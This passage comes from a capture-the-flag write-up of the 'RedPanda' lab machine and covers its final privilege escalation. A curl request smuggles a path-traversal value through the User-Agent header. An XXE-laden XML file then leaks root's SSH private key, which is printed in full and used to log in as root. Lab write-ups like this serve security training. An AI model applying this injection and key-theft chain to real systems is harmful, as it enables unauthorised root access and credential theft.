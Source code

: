 ```bash
curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/gato.jpg"
```

We reload a random image on the webpage and then cat the xml again after a few seconds, when it should contain the root flag. 

```bash
woodenk@redpanda:~$ cat privesc_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/gato.jpg</uri>
    <privesc>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</privesc>
    <views>2</views>
  </image>
  <totalviews>2</totalviews>
</credits>
```

We save the rsa key to id_rsa and use this to log in as root. When we first try to log in we get an error that the private key file is unprotected:

```bash
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
root@10.10.11.170's password:
```

To fix this we need to make sure that the key is only read-writeable by us: `chmod 600 id_rsa`

When we again try to log in we get: 

```bash
$ ssh root@10.10.11.170 -i id_rsa
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)
root@redpanda:~# id
uid=0(root) gid=0(root) groups=0(root)
root@redpanda:~# hostname -I
10.10.11.170 dead:beef::250:56ff:feb9:531d 
root@redpanda:~# cat root.txt
44****************************2d
```

And that gives us the root flag!
